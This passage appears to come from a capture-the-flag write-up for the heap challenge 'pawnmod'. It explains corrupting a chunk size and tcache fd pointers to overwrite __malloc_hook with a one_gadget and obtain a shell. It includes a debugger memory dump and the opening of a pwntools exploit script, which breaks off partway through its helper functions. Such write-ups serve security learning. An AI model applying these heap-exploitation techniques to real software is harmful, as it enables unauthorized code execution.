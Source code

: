 After this, the rest of the exploit was fairly straightforward. However there was a bit of a catch. The `pointer` chunks got allocated and freed first, and it was significantly easier to overwrite the `fd` of a board chunk. But if we overwrote the fd of a `board` chunk, the allocation we got would be that of a `pointer` chunk, which we had no control over. So we overwrote the size of a pointer chunk to `0xa1` (the normal size was 0x51) using `smite`, thus we could get a freed board chunk back on an even numbered allocation. Following this, the exploit was simple - overwriting a board chunk fd with malloc hook byte-by-byte (using `smite`), getting a board allocated there, then overwriting the first 8 bytes of that board with `one_gadget`. 

```
00:0000│   0x7fd97b5e9b70 (__malloc_hook) —▸ 0x7fd97b4e4c81 (execvpe+641)
01:0008│   0x7fd97b5e9b78 ◂— 0x2e2e2e2e2e2e2e00
02:0010│   0x7fd97b5e9b80 ◂— 0x2e2e2e2e2e2e002e /* '.' */
03:0018│   0x7fd97b5e9b88 ◂— 0x2e2e2e2e2e002e2e /* '..' */
04:0020│   0x7fd97b5e9b90 ◂— 0x2e2e2e2e002e2e2e /* '...' */
05:0028│   0x7fd97b5e9b98 ◂— 0x2e2e2e002e2e2e2e /* '....' */
06:0030│   0x7fd97b5e9ba0 ◂— 0x2e2e002e2e2e2e2e /* '.....' */
07:0038│   0x7fd97b5e9ba8 ◂— 0x72002e2e2e2e2e2e /* '......' */
08:0040│   0x7fd97b5e9bb0 ◂— 0x726e62716b626e /* 'nbkqbnr' */
```

After this, calling `malloc` again gave us a shell!

## Exploit script

```python
#!/usr/bin/python

from pwn import *
import sys

remote_ip, port = 'shell.actf.co', 21706
binary = './pawnmod'
brkpts = '''
'''

elf = ELF("pawnmod")
libc = ELF("libc.so.6")

context.terminal = ['tmux', 'splitw', '-h']
context.arch = "amd64"
context.log_level = "debug"

re = lambda a: io.recv(a)
reu = lambda a: io.recvuntil(a)
rl = lambda: io.recvline()
s = lambda a: io.send(a)
sl = lambda a: io.sendline(a)
sla = lambda a,b: io.sendlineafter(a,b)
sa = lambda a,b: io.sendafter(a,b)

uu64 = lambda a: u64(a.ljust(8,"\x00"))

if len(sys.argv) > 1:
    io = remote(remote_ip, port)
    context.noptrace = True

else:
    io = process(binary, env = {'LD_PRELOAD' : './libc.so.6'})

def choice(idx):
    sla("Delete Board\n", str(idx))

def add(idx):
    choice(1)
```